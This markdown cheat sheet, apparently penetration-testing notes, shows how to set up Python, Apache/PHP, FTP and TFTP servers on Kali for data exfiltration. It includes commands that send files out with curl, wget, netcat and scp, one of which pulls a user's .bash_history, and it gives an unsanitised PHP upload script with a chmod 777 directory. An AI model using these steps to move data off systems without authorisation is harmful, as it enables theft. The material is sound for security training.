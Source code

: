 # Data exfiltration

* Rule of thumb: Use native tool first
* Pyhton3 Web Server
* Apache Web Server
* Pure FTPd
* aTFTPd

## Run and download from a Python3 Web Server

* serve current working directory
* retrieve data with different clients

```bash
python3 -m http.server 8080
wget http://serverip:8080/filename -O output
curl http://serverip:8080/filename -o output
```

## Install and configure Apache Web server

* Apache2 is insalled on kali
* config file /etc/apache2/apache2.conf
* default www root /var/www/html/

```bash
sudo apt update && sudo apt install apache2

cat /etc/apache2/apache2.conf
sudo systemctl start apache2

cp file /var/www/html/
ls -al /var/www/html/
```

### Prepare HTML file upload form using PHP

* cp html and php file /var/www/html/
* make upload directory /var/www/html/upload/
* finally restart the apache2 web server to serve the upload
* increase the file upload size sudo vi /etc/php/<version>/apache2/php.ini 
* e.g. **upload_max_filesize = 512M**

```bash
cat <<EOF > /var/www/html/upload.html
<html>
<head></head>
<body>
<h4> File uploads </h4>
<form enctype="multipart/form-data" action="upload.php" method="post">
<p>
Select File:
<input type="file" name="uploadedfile" />
<input type="submit" name="Upload" value="Upload" />
</p>
</form>
</body>
</html>
EOF
```

```bash
cat psupload.php
<?php 
$uploaddir = "/var/www/html/uploads/";
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
EOF

### Upload PHP with Error handling

```bash
cat <<EOF >/var/www/html/upload.php
<?php 
$target_path = "uploads/"; 
$target_path = $target_path . basename( $_FILES['uploadedfile']['name']); 

echo "Source=" . $_FILES['uploadedfile']['name'] . "<br />"; 
echo "Target path=" . $target_path . "<br />"; 
echo "Size=" . $_FILES['uploadedfile']['size'] . "<br />"; 

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
echo "The file " . basename( $_FILES['uploadedfile']['name']) . " has been uploaded"; 
} else { 
echo "There was an error uploading the file, please try again!"; 
} 
?>
EOF
```

```bash
mkdir /var/www/html/uploads/
chmod 777 .
```

Execute HTML file upload using curl or wget

```bash
curl --form "uploadedfile=@/path/to/file" http://server-ip/upload.php
```

```bash
wget --header="Content-type: multipart/form-data boundary=FILEUPLOAD" \
--post-file postfile http://server-ip/upload.php

cat <<EOF > postfile
--FILEUPLOAD
Content-Disposition: form-data; name="comment"

I love uploading files!

--FILEUPLOAD
Content-Disposition: form-data; name="uploadFile"; filename="myfile.bin"; 
Content-Type: application/octet-stream
Media Type: application/octet-stream

This is the file upload content. 
It's possible without B64 encoding, if the boundary is not part of file.

--FILEUPLOAD--
EOF
```

## Install and configure Pure FTP

* add virtual ftpuser to offsec login user
* create a password for offsec login user
* make /ftphome writeable for pure-ftpd

```bash
sudo apt update && sudo apt install pure-ftpd

cat <<EOF > ./setup-ftp.sh
#!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
EOF

chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
systemctl status pure-ftpd
```

## Install and confiugre TFTP

* create /tftp folder
* change owner of /tftp
* start deamon on udp port 69

```bash
sudo apt update && sudo apt install atftpd

cat <<EOF > setup-atftpd.sh
#!/bin/bash

sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
EOF
```

## Connect FTP

Anoymous connect

```bash
ftp host-IP
Name: anonymous
<Enter>

ftp> ls
ftp> get somefile.txt
ftp> put somefile.bin
ftp> quit

# disable passive mode
ftp> passive
# binary file transfer
ftp> binary
# text file only transfer (use with caution)
ftp> ascii

```

## Connect to TFTP

```bash
tftp host-IP
# ls option is by default deactivated
tftp> get somefile.txt
tftp> put somefile.txt
```


## Netcat

```bash
nc -lvnp 1234 > receive.txt
nc -vn host-IP 1234 < send.txt
```

## SCP

```bash
scp user@IP:/home/user/.bash_history history.txt
```
